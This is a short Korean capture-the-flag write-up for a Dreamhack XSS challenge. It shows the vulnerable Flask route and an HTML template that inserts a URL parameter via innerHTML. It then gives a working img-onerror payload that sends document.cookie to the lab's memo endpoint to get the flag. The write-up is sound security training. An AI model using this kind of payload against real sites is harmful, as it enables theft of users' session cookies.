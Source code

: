 # xss-2
이 문제는 [이전 문제](https://github.com/iamjames77/Dreamhack/blob/main/Document/Level%201/28.md)와 유사한 구조를 갖는다.

```python
@app.route("/vuln")
def vuln():
    return render_template("vuln.html")
```
그러나 xss-1에선 `param`을 return 햇다면 이 문제에서는 `vuln.html`을 return 한다.

```html
<div id='vuln'></div>
<script>
    var x=new URLSearchParams(location.search); 
    document.getElementById('vuln').innerHTML = x.get('param');
</script>
```
html을 보면 innerHTML을 활용하여 param을 획득하여 표시한다.

innerHTML은 <script></script>를 실행시키지 않는다. 그러나 <img src='x' onerror = `자바스크립트 코드`>를 사용하면 우회가 가능하다 따라서 `<img src= 'x' onerror = 'location.href = "http://127.0.0.1:8000/memo?memo=hello"+document.cookie'>`를 사용하면 flag를 얻을 수 있다.